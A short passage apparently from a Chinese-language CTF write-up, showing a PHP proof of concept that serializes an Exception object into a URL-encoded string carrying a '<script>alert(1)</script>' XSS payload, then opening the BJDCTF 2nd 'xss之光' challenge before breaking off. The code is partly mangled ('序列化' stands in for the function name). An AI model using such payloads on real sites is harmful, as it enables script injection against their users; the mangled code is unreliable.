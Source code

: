 `  
`

`赠送POC：`

`  
`

``

`PHP`

``

    
    
    1   
    2   
    3   
    4   
    5   
    6   
    7  
    

|

    
    
      
    $a = new  Exception ( "" );   
    $b = 序列化( $a );   
    echo urlencode( $b );    
    ?>  
      
    //输出：O%3A9%3A%22Exception%22%3A7%3A%7Bs%3A10%3A%22%00%2A%00message%22%3Bs%3A25%3A%22%3Cscript%3Ealert%281%29% 3C%2Fscript%3E%22%3Bs%3A17%3A%22%00Exception%00string%22%3Bs%3A0%3A%22%22%3Bs%3A7%3A%22%00%2A%00code%22%3Bi% 3A0%3Bs%3A7%3A%22%00%2A%00file%22%3Bs%3A18%3A%22%2Fusercode%2Ffile.php%22%3Bs%3A7%3A%22%00%2A%00line%22% 3Bi%3A2%3Bs%3A16%3A%22%00Exception%00trace%22%3Ba%3A0%3A%7B%7Ds%3A19%3A%22%00Exception%00previous%22%3BN%3B%7D  
      
  
---|---  
  
`  
`

`![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210826084241.png)`

## `[BJDCTF 2nd]xss之光`

`进入题目，首先通过git泄露暴露：`

`  
`

``

`PHP`
